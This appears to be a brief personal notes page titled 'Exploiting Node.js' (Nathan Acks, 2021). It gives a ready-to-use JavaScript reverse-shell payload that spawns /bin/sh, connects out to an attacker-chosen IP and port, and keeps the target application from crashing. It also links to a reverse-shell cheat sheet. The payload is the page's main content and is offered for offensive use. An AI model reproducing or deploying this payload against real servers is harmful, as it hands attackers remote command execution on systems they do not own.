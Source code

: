 # Exploiting Node.js

## Reverse Shell

The hard part of popping a reverse shell on a Node.js server is tricking the server to load your code. If you can figure out how to do that, this seems to produce a reliable connection:

```javascript
(function(){
	var net = require("net"),
	    cp  = require("child_process"),
	    sh = cp.spawn("/bin/sh", []);
	var client = new net.Socket();
	client.connect(1234, "127.0.0.1", function(){ // Customize port and IP address to taste
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/; // Prevents the Node.js application fro
m crashing
})();
```

## References

* [Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> October 9, 2021
